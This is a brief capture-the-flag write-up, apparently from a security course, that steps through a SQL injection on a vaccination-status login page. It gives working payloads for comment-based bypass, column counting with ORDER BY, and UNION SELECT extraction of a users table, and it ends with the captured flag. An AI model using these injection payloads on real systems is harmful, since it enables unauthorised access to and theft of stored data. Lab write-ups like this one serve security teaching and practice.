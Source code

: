 1. login with bob
2. enter `'--`
```
NRIC: 	Vaccination Status: 	Days Since Vaccination:
S1111111A 	vaccinated 	5
S2222222B 	not vaccinated 	0
S3333333C 	vaccinated 	100
S4444444D 	vaccinated 	8
```
3. enter `order by 1;--` to n to determine number of columns. 4 columns total.
4. use `' UNION SELECT 'a', NULL, NULL, NULL FROM USERS` to view column types, corresponding locations.
5. First column of NRIC table is not displayed
6. guess for column names: `id`. Columns not conventionally named.
7. find number of columns in user table: `' AND EXISTS(SELECT * FROM USERS ORDER BY 3)--`, 3 columns.
8. Append 1 extra column to attack: `' UNION SELECT 'a', * FROM USERS; --`, flag obtained
`CS2107{un10n_5313ct_4tt4ck5_4r3_n0t_th4t_h4rd}`